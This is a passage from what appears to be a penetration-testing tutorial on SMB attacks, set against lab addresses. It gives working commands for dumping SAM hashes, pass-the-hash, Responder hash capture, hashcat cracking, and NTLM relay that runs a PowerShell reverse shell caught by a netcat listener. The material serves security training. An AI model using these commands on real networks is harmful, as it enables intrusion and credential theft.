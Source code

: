 If the --exec-method is not defined, CrackMapExec will try to execute the atexec method, if it fails you can try to specify the --exec-method smbexec
#### Enumerating Logged-on Users
Imagine we are in a network with multiple machines. Some of them share the same local administrator account. In this case, we could use CrackMapExec to enumerate logged-on users on all machines within the same network 10.10.110.17/24, which speeds up our enumeration process.
```
crackmapexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users
```
#### Extract Hashes from SAM Database
```
crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam
```
#### Pass-the-Hash (PtH)
If we manage to get an NTLM hash of a user, and if we cannot crack it, we can still use the hash to authenticate over SMB with a technique called Pass-the-Hash (PtH). We can use a PtH attack with any Impacket tool, SMBMap, CrackMapExec, among other tools. Here is an example of how this would work with CrackMapExec:
```
crackmapexec smb 10.10.110.17 -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE
```
## Forced Authentication Attacks
We can also abuse the SMB protocol by creating a fake SMB Server to capture users' NetNTLM v1/v2 hashes. Responder is an LLMNR, NBT-NS, and MDNS poisoner tool with different capabilities, one of them is the possibility to set up fake services, including SMB, to steal NetNTLM v1/v2 hashes.
```
sudo responder -I ens33
```
These captured credentials can be cracked using hashcat or relayed to a remote host to complete the authentication and impersonate the user. All saved Hashes are located in Responder's logs directory (`/usr/share/responder/logs/`). We can copy the hash to a file and attempt to crack it using the hashcat module 5600.
```
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
```
If we cannot crack the hash, we can potentially relay the captured hash to another machine using impacket-ntlmrelayx or Responder MultiRelay.py. Let us see an example using impacket-ntlmrelayx.
1. First, we need to set SMB to OFF in our responder configuration file (/etc/responder/Responder.conf).
```
cat /etc/responder/Responder.conf | grep 'SMB ='
```
2. Then we execute impacket-ntlmrelayx with the option --no-http-server, -smb2support, and the target machine with the option -t. By default, impacket-ntlmrelayx will dump the SAM database, but we can execute commands by adding the option -c.
```
impacket-ntlmrelayx --no-http-server -smb2support -t 10.10.110.146
```
3. We can create a PowerShell reverse shell using https://www.revshells.com/, set our machine IP address, port, and the option Powershell #3 (Base64).
```
impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.220.146 -c <Powershell rev shell code>
```
```
nc -lvnp 9001
```





